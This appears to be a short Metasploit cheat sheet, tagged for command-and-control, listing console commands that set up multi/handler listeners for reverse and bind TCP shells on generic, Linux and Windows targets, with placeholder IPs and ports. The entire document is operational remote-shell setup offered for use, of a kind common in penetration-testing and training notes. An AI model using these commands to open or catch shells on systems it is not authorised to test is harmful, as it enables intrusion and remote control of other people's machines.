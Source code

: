 # Metasploit

Search Tag: #metasploit-framework #command-and-control

## 01 - Multi Handler

## 1.1 - Setting up a Generic TCP listener

### 1.1.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload generic/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

### 1.1.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload generic/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

## 1.2 - Setting up a Linux TCP listener

### 1.2.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload linux/<x86 | x64>/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

### 1.2.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload linux/<x86 | x64>/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

## 1.3 - Setting up a Windows TCP listener

### 1.3.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/[x64/]shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

### 1.3.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/[x64/]shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```